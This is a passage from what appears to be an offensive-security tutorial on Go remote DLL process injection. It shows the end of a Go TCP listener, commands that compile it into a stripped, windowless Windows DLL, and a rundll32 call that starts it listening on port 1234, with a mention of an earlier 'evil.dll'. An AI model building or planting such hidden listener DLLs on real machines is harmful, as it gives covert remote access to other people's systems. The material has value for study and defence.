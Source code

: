 ```go  

	fmt.Println("Server started. Waiting for connections...")

	// Accept and handle client connections in a loop
	for {
		// Accept a new client connection
		conn, err := listener.Accept()
		if err != nil {
			fmt.Println("Error accepting connection:", err)
			return
		}

		// Handle the client connection concurrently in a separate goroutine
		go handleConnection(conn)
	}
}

func main() {

}
```  

**Compile on Windows...**  

```  
go build -buildmode=c-shared -ldflags="-w -s -H=windowsgui" -o gob-server.dll ./gob-server.go
```  

**Compile on Linux...**  

```  
GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -buildmode=c-shared -ldflags="-w -s -H=windowsgui" -o gob-server.dll ./gob-server.go
``` 

**Either way you compile, the file needs to be dropped in the root directory ochange the dll path in the scr1pt.**  

## We now have a new Dll, but what is the difference between this one and the last one? 

**The main difference besides language (C++ vs Go) is that the previous example (evil.dll) has no export statements for functions. You may have noticed an error when you ran rundll32 against it.**  

## Let's try running rundll32 against our new dll. We have an exported function named GobServer.  

```  
rundll32 c:\\gob-server.dll,GobServer
```  

![](/go-remote-dll-process-injection/example-4-gob-server.png)  

##  So, it looks like our gob server DLL works, our Windows box is now listening for a client on port 1234...  
